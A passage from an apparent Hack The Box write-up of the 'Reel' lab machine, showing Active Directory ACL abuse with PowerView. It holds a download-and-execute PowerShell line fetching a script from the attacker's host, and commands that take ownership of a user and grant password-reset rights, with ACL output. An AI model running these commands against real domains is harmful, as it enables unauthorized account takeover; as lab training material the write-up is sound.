 In order to easily take advantage of the `WriteOwner` and `WriteDacl` permissions, we'll use `PowerView`, which is part of the excellent [PowerSploit][7] collection (remember to use the `dev` branch!). Again, let's use `SimpleHTTPServer` to download `PowerView.ps1` (it's in the `Recon` directory) into Reel:

```
> IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.12.157/PowerView.ps1')
```

Ok, we got our tools. Let's play.

First, we'll confirm we have `WriteOwner` access over Claire as Tom:

```
> $tomSid = Get-DomainUser tom | Select-Object -ExpandProperty objectsid
> Get-DomainObjectACL claire -ResolveGUIDs | Where-Object {$_.securityidentifier -eq $tomSid}
                           
AceType               : AccessAllowed
ObjectDN              : CN=Claire Danes,CN=Users,DC=HTB,DC=LOCAL
ActiveDirectoryRights : WriteOwner
OpaqueLength          : 0
ObjectSID             : S-1-5-21-2648318136-3688571242-2924127574-1130
InheritanceFlags      : None
BinaryLength          : 36
IsInherited           : False 
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-21-2648318136-3688571242-2924127574-1107
AccessMask            : 524288
AuditFlags            : None
AceFlags              : None
AceQualifier          : AccessAllowed
```

Great, we have. Now let's become Claire's owner and reset her password!

```
> Set-DomainObjectOwner -Identity claire -TargetIdentity tom
> Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword
```

Did it work?

```
> Get-DomainObjectACL claire -ResolveGUIDs | Where-Object {$_.securityidentifier -eq $tomSid}

AceQualifier           : AccessAllowed
ObjectDN               : CN=Claire Danes,CN=Users,DC=HTB,DC=LOCAL
ActiveDirectoryRights  : ExtendedRight
ObjectAceType          : User-Force-Change-Password
ObjectSID              : S-1-5-21-2648318136-3688571242-2924127574-1130
     
InheritanceFlags       : None
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-2648318136-3688571242-2924127574-1107
AccessMask             : 256
AuditFlags             : None
IsInherited            : False
AceFlags               : None
InheritedObjectAceType : All
OpaqueLength           : 0

AceType               : AccessAllowed
ObjectDN              : CN=Claire Danes,CN=Users,DC=HTB,DC=LOCAL
ActiveDirectoryRights : GenericAll
```

[1]: https://stackoverflow.com/questions/21741803/powershell-securestring-encrypt-decrypt-to-plain-text-not-working
[2]: https://stackoverflow.com/questions/18747942/how-to-use-a-powerhsell-serialized-object
[3]: https://github.com/BloodHoundAD/Bloodhound/wiki
[4]: https://media.defcon.org/DEF%20CON%2024/DEF%20CON%2024%20presentations/DEFCON-24-Robbins-Vazarkar-Schroeder-Six-Degrees-of-Domain-Admin.pdf
[5]: https://github.com/BloodHoundAD/BloodHound/wiki/Data-Collector
[6]: https://www.specterops.io/assets/resources/an_ace_up_the_sleeve.pdf
[7]: https://github.com/PowerShellMafia/PowerSploit.git
[8]: https://www.hackthebox.eu/home/users/profile/1190